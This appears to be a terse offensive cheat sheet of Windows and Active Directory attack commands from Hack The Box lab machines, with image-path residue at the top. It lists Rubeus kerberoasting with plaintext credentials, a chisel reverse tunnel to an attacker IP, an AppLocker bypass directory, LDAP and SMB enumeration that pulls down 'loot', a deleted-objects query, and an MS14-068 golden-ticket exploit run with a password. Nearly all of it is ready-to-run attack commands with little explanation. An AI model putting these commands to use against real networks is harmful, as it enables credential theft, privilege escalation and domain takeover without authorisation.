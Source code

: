 # kerbroast attack using Rubeaus
 .\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972

# portforward using chisel binary, first transfer binary to target and then run command below
.\chiselx64.exe client 10.10.14.67:8008 R:88:127.0.0.1:88 R:389:localhost:389

# portforward using chisel binary, now run command below on attacker machine 
chisel server -p 8008 --reverse

# bypassing applocker permission folder with write access
C:\Windows\System32\spool\drivers\color

# enum ldap for domain names 
ldapsearch -h 10.10.10.182 -x -s base namingcontexts

# enum all ldap info and dump to a file
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local"  | tee ldapEnum.txt

# enum ldap only for users and dump to a file
ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)' | tee ldapUsers.txt

# connect to a remote smb share and place all files one folder , then download files to local machine, and search for loot
mkdir smb-data
smbclient --user USER //10.129.4.211/SHARE_NAME PASS
smb: \>mask ""
smb: \>recurse ON
smb: \>prompt OFF
smb: \>mget *
find smb-data/ -type f

# PowerShell command to query all of the deleted objects within a domain:
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

# ms14-068 windows exploit - python script for creating a golden ticket to admin shell exploit 
python ms14-068.py -u james@htb.local -s S-1-5-21-4220043660-4019079961-2895681657 -d mantis.htb.local -p J@m3s_P@ssW0rd! 
